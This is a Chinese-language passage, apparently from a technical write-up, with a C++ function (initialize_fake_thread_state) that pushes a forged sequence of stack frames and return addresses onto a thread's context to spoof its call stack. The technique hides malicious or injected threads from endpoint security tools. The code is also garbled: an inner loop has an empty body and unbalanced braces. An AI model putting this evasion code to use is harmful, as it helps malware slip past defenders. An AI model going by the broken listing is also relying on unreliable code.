 

使用`initialize_fake_thread_state`函数修改线程的上下文来实现堆栈欺骗，此函数会遍历伪造的堆栈，并将每个堆栈帧的信息推入线程的实际堆栈中

```cpp
void initialize_fake_thread_state(
    PSTACK_FRAME callstack,
    DWORD number_of_frames,
    PCONTEXT context)
{
    ULONG64 childSp = 0;
    BOOL bPreviousFrameSetUWOP_SET_FPREG = FALSE;
    PSTACK_FRAME stackFrame = NULL;

    push_to_stack(context, 0);

    for (DWORD i = 0; i < number_of_frames; i++)
    {
        stackFrame = &callstack[number_of_frames - i - 1];

        if (bPreviousFrameSetUWOP_SET_FPREG && stackFrame->pushRbp)
        {   
         
            DWORD diff = stackFrame->countOfCodes - stackFrame->pushRbpIndex;
            DWORD tmpStackSizeCounter = 0;
            for (ULONG j = 0; j < diff; j++)
            {
            

            context->Rsp -= (stackFrame->totalStackSize - (tmpStackSizeCounter + 0x8));
            *(PULONG64)(context->Rsp) = (ULONG64)stackFrame->returnAddress;


            bPreviousFrameSetUWOP_SET_FPREG = FALSE;
        }
        else
        {
        
            context->Rsp -= stackFrame->totalStackSize;
            *(PULONG64)(context->Rsp) = (ULONG64)stackFrame->returnAddress;
        }
        
        if (stackFrame->setsFramePointer)
        {
            childSp = context->Rsp;
            childSp += 0x8;
            bPreviousFrameSetUWOP_SET_FPREG = TRUE;
        }
    }
}
```


